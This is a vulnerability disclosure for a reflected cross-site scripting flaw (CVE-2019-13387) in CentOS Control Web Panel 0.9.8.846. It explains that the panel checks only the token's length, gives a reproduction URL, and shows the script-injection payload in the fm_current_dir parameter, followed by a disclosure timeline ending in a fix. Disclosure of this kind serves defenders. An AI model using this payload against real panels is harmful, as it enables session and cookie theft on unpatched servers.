 # Information

```
Exploit Title       : CWP (CentOS Control Web Panel) Reflected Cross Site Scripting
Date                : 7 July 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.846
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-13387
```
<br>

# Description:

CWP Version 0.9.8.846 have implemented token in every URL to prevent cross site scripting.
But the aplication checks only length of the token, this allows attacker to follow the token format to bypass XSS protection
Refer to  : CVE-2018-18324

<br>

#  Steps to Reproduce

Example : https://[target.com]:2083/cwp_xxxxxxxxxxxxxxxx/user1/fileManager2.php?frame=3&fm_current_dir=</script><script>alert(document.cookie)</script>

Parameter Name: fm_current_dir
Attack Pattern for XSS: </script><script>alert(document.cookie)</script>



<kbd>![](resources/CVE-2019-13387.md/ezgi.gif)</kbd>

<br>

#  Timeline

```
2019-07-07: Discovered the bug
2019-07-07: Reported to vendor
2019-07-07: Vender accepted the vulnerability
2019-07-15: The vulnerability has been fixed
2019-07-23: Published
```

